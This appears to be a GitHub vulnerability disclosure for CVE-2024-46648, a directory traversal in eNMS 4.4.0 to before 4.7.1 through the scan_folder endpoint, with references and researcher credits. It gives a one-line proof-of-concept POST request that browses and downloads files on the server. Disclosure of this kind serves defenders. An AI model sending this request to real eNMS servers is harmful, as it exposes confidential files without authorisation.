



# **CVE-2024-46648**
# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via scan_folder
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /scan_folder/>[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
## ```POST /scan_folder/>[DIR]```

View and download file/directory content via ```SCAN FOLDER``` functionality:



```
POST /scan_folder/>tmp>test
```



Downloading the file found within the folder:
<br/><br/>

# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46648 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46648 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/">
